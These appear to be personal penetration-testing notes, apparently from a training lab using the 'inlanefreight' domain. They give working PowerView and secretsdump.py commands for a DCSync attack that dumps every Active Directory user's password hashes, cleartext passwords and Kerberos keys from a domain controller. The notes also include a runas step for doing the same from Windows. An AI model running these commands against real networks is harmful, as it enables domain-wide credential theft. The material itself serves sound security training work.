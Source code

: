 -- -
Can be used after you get domain admin or if you get a user with these privs. This attack is used to sync AD so you should get all users and their saved hashes from the DC. First, verify your user can do this
#### Get User SID
```powershell
Get-DomainUser -Identity <user> | select samaccountname,objectsid,memberof,useraccountcontrol | fl
```
#### Check User's Replication Rights
```powershell
# Set SID
$sid= "<user sid>"
$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"

# Get replication rights
Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```
#### Perform DSync Attack
**From linux**
```bash
secretsdump.py -outputfile inlanefright_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
```
Note: The above command will output multiple files:
1. The user hases in `.ntds`
2. Cleartext passwords if user had reversible encryption set in `.ntds.cleartext` 
3. Kerberos keys in `.ntds.kerberos`
**From Windows**
Make sure you run this from the perspective of the user with Sync privileges, if you need to force this:
```powershell
runas /netonly /user:INLANEFREIGHT\adunn powershell
```
Then run attack:
![[mimikatz#^21193e]]
